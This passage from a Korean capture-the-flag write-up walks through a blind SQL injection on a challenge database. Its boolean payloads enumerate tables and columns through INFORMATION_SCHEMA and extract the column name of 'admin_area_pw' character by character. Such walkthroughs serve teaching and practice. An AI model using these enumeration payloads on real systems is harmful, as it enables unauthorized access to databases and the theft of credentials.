 그런데 여기서 문득 의문이 생깁니다. `chall2` 데이터베이스 내에 Table이 한개만 존재할까요? 다음의 Query를 통해 확인할 수 있습니다.
~~~sql
LENGTH((
    SELECT TABLE_NAME 
    FROM INFORMATION_SCHEMA.TABLES 
    WHERE TABLE_SCHEMA="chall2" 
    LIMIT 1,1)) > 0;
-- true

LENGTH((
    SELECT TABLE_NAME 
    FROM INFORMATION_SCHEMA.TABLES 
    WHERE TABLE_SCHEMA="chall2" 
    LIMIT 2,1)) > 0;
-- no return
~~~
__*Note*__: 본 문제에서 오류가 반환되는 경우 별다른 주석을 제공하지 않습니다. default 상태에서 Cookie Injection을 하는 것을 추천합니다.

Line1~3은 `true`를 반환하고, Line 5~7은 `false`를 반환하였습니다. 이는 데이터베이스 내에 `admin_area_pw` 이외의 테이블이 **1개** 더 존재한다는 것을 의미합니다. 2번째 테이블 또한 그 이름을 추론해볼 수 있습니다.[^2] 하지만 현재 우리의 관심은 `admin_area_pw`이므로 `admin_area_pw`라는 테이블의 컬럼과, 그 레코드를 확인해보도록 하겠습니다.

`admin_area_pw`테이블의 컬럼 또한 `INFORMATION_SCHEMA`로부터 획득할 수 있습니다. 
~~~sql
LENGTH((
    SELECT COLUMN_NAME 
    FROM INFORMATION_SCHEMA.COLUMNS 
    WHERE TABLE_NAME="admin_area_pw" 
    LIMIT 0,1)) > 0;
~~~
LIMIT 0, 1의 경우 `true`이며, LIMIT 1,1 의 경우 아무것도 반환되지 않으므로 컬럼(Column)은 **1개**만 존재한다는 것을 확인 할 수 있습니다. 

이어서 컬럼명을 확인해보면, 
~~~sql
LENGTH((
    SELECT COLUMN_NAME 
    FROM INFORMATION_SCHEMA.COLUMNS 
    WHERE TABLE_NAME="admin_area_pw" 
    LIMIT 0,1)) = 2;
-- true

ASCII(
    SUBSTR((
        SELECT COLUMN_NAME 
        FROM INFORMATION_SCHEMA.COLUMNS 
        WHERE TABLE_NAME="admin_area_pw" 
        LIMIT 0,1),1,1)) = 112;
-- p
ASCII(
    SUBSTR((
        SELECT COLUMN_NAME 
        FROM INFORMATION_SCHEMA.COLUMNS 
        WHERE TABLE_NAME="admin_area_pw" 
        LIMIT 0,1),2,1)) > 119;
-- w
~~~
이 시점에서 우리는 이 문제가 이러한 구조를 가지고 있다고 파악할 수 있습니다.
~~~javascript
DATABASE SERVER
└ ...
└ INFORMATION_SCHEMA
└ chall2
    └ log
        └ ...
    └ admin_area_pw
        ----------
~~~

[^1]: 공격 방법이 장님(blind)이 길을 지팡이로 짚으며 걸어가는 듯하다고 하여 blind sql injection이라고 합니다. 
[^2]: 2번째 테이블명은 `log`입니다. 문제 풀이와는 관련 없으므로 배제합니다.